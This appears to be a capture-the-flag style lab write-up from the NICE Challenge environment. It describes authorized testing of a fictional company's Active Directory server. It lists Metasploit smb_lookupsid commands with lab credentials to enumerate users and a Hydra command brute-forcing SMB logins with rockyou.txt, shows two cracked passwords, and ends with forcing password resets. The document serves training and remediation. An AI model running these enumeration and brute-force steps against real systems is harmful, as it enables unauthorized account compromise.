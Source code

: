 ## Goals

"We have reason to believe that some of our employees have weaker than should be acceptable passwords, so we want you to conduct authorized penetration testing against various company assets to determine which employees need to change their passwords."

**Use Kali Linux to attempt an attack on Pretty Safe Electronic's Active Directory house on 171.16.30.55**<br><br>
--We will be using Metasploit's Axiliary smblookupsid to exploit the directory to enumerate authorized users. <br>
--We will be using the output from Metasploit output in Hydra to target the specific users on the directory. <br>
--We will use the common "rockyou.txt" wordlist to test against the users for weak passwords. <br><br><br>
**Force password reset on identified users with weak passwords.**<br><br>
--We will login to the domain controller and force password resets for users identified with weak passwords.<br> 

## Tools Used

* Kali Linux 
* Metasploit Console
* SMB
* smb_lookupsid Auxiliary in Metasploit
* Hydra command line tool
* Active Directory (Users and Computers)

## Network Map and targets used<br>
![](https://portal.nice-challenge.com/static/img/PD-map.jpg)<br><br>
Our target is the AD-Server located at 172.16.30.55<br>
We will utilize the Security-Desk workstation located at 172.16.20.55<br><br>

## Actions Taken

* Spin up the Security-Desk workstation and login to player one. 
* Open Terminal and run "sudo msfconsole"
* Select the smb_lookupsid too by running "use auxiliary/scanner/smb_lookupsid" 
* Set target to Active Directory service by running "set RHOSTS 172.16.30.55"
* Set SMB user by running "set SMBUser playerone"
* Set SMB password by running "set SMBPass password123"
* Start exploit by running "exploit"
* Once task is complete, copy output and paste into MousePad.
* Remove all data except found users:<br><br>
rcortes <br>
jsmith <br>
manderson <br>
skeefe <br>
nkeefe <br>
asteele <br>
jraffin <br>
jcortes <br>
tclark <br><br>
* Save document in home directory. (/home/playerone/(KNOWNUSERS).txt)
* Create another empty document in the home directory for Hydra's output. (/home/playerone/(OUTPUT).txt
* Quit metasploit console.
* In Terminal, run "hydra -L /home/playerone/(KNOWNUSERS).txt -P /usr/share/wordlists/rockyou.txt -o /home/playerone/(OUTPUT).txt -v 172.16.30.55 smb"
*Hydra discovered two users who had weak passwords:<br><br>
nkeefe:987654321<br>
jcortes:iloveme<br><br>
* Shut down Security-Desk
* Spin up Domain-Controller
* Select Start Menu > Administrative Tools
* Open Active Directory Users and Computers
* Select prettysafeelectronics.io > Users
* We will adjust the password policy for Jan Cortes (jcortes) & Naomi O'Keefe (nkeefe)
* Select the respective user from the list and open properties from secondary menu. 
* Select the account tab. 
* Uncheck [Password never expires]
* Check [User must change password at next logon]
* Apply changes
* Repeat for second user. 
* /Challenge Complete//




